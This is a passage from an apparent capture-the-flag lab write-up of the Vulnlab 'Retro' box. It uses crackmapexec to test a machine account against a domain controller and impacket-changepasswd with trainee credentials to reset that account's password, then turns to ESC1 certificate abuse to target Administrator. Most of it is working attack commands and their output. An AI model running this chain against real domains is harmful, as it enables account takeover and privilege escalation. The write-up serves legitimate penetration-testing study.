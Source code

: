 ```
┌──(daz㉿kali)-[~/tech/vl/retro/dump]
└─$ crackmapexec smb 10.10.124.140 -u 'banking$' -p 'banking'
SMB         10.10.124.140   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.124.140   445    DC               [-] retro.vl\banking$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

You'll notice that we'll receive an error that is not a regular authentication error, and instead is `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`. This does not mean the credentials are incorrect, and instead means that the domain does not trust this machine account.

Despite that, we technically have a credentials though they aren't actually valid. I found that our next avenue to exploitation is ADCS, but if we try to run any queries to ADCS we'll come back with an invalid credential error.

So the big thing here is that we'll need to reset this machine accounts password using `Impacket` to obtain credentials that we can actually use. There's a tool called `impacket-changepasswd` that does the trick with us - we'll just need to use the trainee creds that we have access to.

```
└─$ impacket-changepasswd retro.vl/banking$:banking@10.10.124.140 -dc-ip 10.10.124.140 -altuser "trainee" -altpass "trainee" -newpass daz
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Attempting to *change* the password of retro.vl/banking$ as retro.vl/trainee. You may want to use '-reset' to *reset* the password of the target.
[*] Changing the password of retro.vl\banking$
[*] Connecting to DCE/RPC as retro.vl\trainee
[*] Password was changed successfully.
```

We can see that the password was changed successfully, and we'll run another `crackmapexec` command to see if anything has changed.

```
└─$ crackmapexec smb 10.10.124.140 -u 'banking$' -p 'daz' 
SMB         10.10.124.140   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.124.140   445    DC               [+] retro.vl\banking$:daz
```

Looks like the password change method worked out, we can now progress to ADCS.

# ESC1 ADCS Exploitation

I've covered ADCS in my [Hybrid](https://dan-feliciano.com/writeups/hybrid/) writeup previously, and given that we have credentials we can potentially look for any certificates that we can abuse. ADCS is essentially a server role that allows administrators to integrate PKI (Public Key Infrastructure) into their AD environment for digital signature/certificate capabilities. They then allow these same certificates to be used to authenticate and access domain resources on behalf of a user. In our case, we can request a certificate for the `Administrator` machine account on behalf of the `BANKING$` user.
